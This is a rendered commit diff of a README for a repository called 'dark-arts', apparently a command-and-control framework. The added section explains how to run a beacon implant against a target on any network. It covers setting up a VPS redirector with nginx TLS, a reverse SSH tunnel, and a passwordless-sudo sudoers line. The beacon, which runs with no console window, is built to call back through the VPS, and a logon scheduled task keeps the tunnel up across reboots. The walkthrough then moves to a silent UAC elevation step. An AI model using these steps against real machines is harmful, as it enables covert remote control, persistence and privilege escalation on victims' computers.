

Before and after one commit to kelvinweijun/dark-arts, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
docs: walkthrough cross-network variant (VPS redirector) with full step sequence

````diff
--- a/README.md
+++ b/README.md
@@ -256,7 +256,26 @@ Copy `lab\laptop-pkg\beacon.exe` to the laptop and double-click it (no console w
 dark-arts> sessions          # the laptop's sid shows a recent last-seen
 ```
 
-The walkthrough covers a same-network laptop. For a target on foreign WiFi or a different network, run `sshkey` + `redirector [-Reverse] <user@vps>` first (see [Cross-network deployment](#cross-network-deployment-vps-redirector)) — it provisions the VPS and builds the package with the right edge list automatically.
+The walkthrough covers a same-network laptop. For a target on foreign WiFi or a different network, use the cross-network variant below (it replaces steps 5–6).
+
+### 6b. Cross-network variant (VPS redirector) — instead of steps 5–6
+
+**Before the console (one-time VPS prep):**
+
+1. Create a Debian/Ubuntu VPS and open **TCP 443** (and 80 while certbot runs) in the *provider* firewall — OCI security list, GCP VPC rule (`gcloud compute firewall-rules create darkarts-443 --allow tcp:443,tcp:80 ...`); a VM-level ufw rule alone is not enough.
+2. `dark-arts> sshkey` — paste the printed public key into the VPS's `authorized_keys` (or the provider's launch form).
+3. Give the SSH user passwordless sudo (`echo "<user> ALL=(ALL) NOPASSWD:ALL" > /etc/sudoers.d/<user>`) or `redirector` dies at `apt-get update`.
+
+**In the console (lab already up):**
+
+4. `dark-arts> redirector -Reverse <user@vps> [domain]` — one command provisions nginx (TLS :443 → upstream `127.0.0.1:7443`), starts the outbound SSH tunnel window (`ssh -R 7443`), verifies `https://<vps>/healthz` from the VPS, then **builds + registers the package** with edges `https://<vps>:443,http://<lab-ip>:7443`.
+5. Keep the tunnel window open; for persistence across reboots: `dark-arts> tunnel-install <user@vps>` (logon scheduled task).
+6. Copy `lab\laptop-pkg\beacon.exe` to the laptop and double-click it — works from **any** network.
+7. Continue with step 7 (`uactest`) below.
+
+Plain (non-reverse) mode: `dark-arts> redirector <user@vps> [domain]` instead — requires the lab host reachable from the VPS on TCP 7443 (router port-forward; verify with `nc -vz <lab-ip> 7443` from the VPS) and the Windows firewall rule (the console adds it when elevated).
+
+If step 4 verifies with `healthz returned 502`: the tunnel wasn't up yet — check the tunnel window for errors and confirm the listener on the VPS with `ss -tlnp | grep 7443`, then re-run (the whole `redirector -Reverse` run is idempotent).
 
 ### 7. Test the silent UAC elevation channel
 
````
